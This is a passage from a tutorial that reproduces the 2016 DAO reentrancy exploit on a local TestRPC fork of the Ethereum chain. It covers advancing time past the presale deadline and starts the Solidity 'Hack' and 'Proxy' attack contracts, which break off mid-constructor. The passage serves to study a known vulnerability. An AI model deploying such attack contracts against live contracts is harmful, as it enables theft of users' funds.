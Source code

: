 Note that the `accounts` array is populated by our script, which used `web3.eth.getAccounts()` to get a list of all available accounts provided to us by the TestRPC. As well, we've pointed an instance of the DAO contract to the address [0xbb9bc244d798123fde783fcc1c72d3bb8c189413](https://etherscan.io/address/0xbb9bc244d798123fde783fcc1c72d3bb8c189413), which is the original DAO account and code.

Again, for example's sake we're using some shorthand, so please follow along [with the script on github](https://github.com/tcoulter/dao-truffle/blob/master/index.js).

### Step 3: Wait for the presale to end

Since we forked to a block that was mined the day before the presale ended, we have to jump forward in time by at least a few hours to get past the presale deadline. We decided to jump a day by calling a special method provided by the TestRPC, `evm_increaseTime`:

```javascript
web3.currentProvider.sendAsync({
  jsonrpc: "2.0",
  method: "evm_increaseTime",
  params: [86400],  // 86400 seconds in a day
  id: new Date().getTime()
}, callback);
```

This will tell the TestRPC to alter its timestamp by `86400` seconds. This feature allows you to write tests that have a time component, and in our case allows us to continue executing code after a deadline is reached.

### Step 4: Deploy our hack contract to the network

This hack contract was written by me, but it was heavily influenced by [this writeup](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/) written by Phil Daian from [Hacking, Distributed](http://hackingdistributed.com/). Many thanks go to him for such a clear writeup.

From Github: [./contracts/Hack.sol](https://github.com/tcoulter/dao-truffle/blob/master/contracts/Hack.sol)
```javascript
import "DAOInterface.sol";

contract Proxy {
  DAOInterface DAO;
  address owner;

  function Proxy(address _dao) {
    owner = msg.sender;
    DAO = DAOInterface(_dao);
  }

  function empty() {
    if (msg.sender != owner) return;

    uint balance = DAO.balanceOf(this);
    DAO.transfer(owner, balance);
  }
}

contract Hack {
  uint public proposalID;
  DAOInterface public DAO;
  uint public calls_to_make;
  uint public calls;
  Proxy public proxy;

  function Hack(address _dao) {
    DAO = DAOInterface(_dao);
    calls = 0;
    proxy = new Proxy(_dao);
```